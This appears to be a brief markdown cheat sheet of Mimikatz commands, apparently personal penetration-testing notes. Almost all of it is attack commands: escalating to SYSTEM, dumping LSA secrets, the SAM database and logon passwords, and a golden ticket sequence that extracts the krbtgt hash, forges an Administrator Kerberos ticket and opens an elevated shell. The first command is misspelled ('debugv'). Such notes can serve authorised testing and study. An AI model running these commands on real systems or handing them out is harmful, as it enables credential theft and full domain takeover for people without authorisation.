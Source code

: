 
# Mimikatz

```c
privilege::debugv # enables the _SeDebugPrivilge_ access right
token::elevate # elevate the security token Administrator -> SYSTEM
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### lsadumping

```c
privilege::debug
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

### Golden Ticket Attacks

```c
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`,then  
open command prompt with elevated privileges `misc::cmd`.

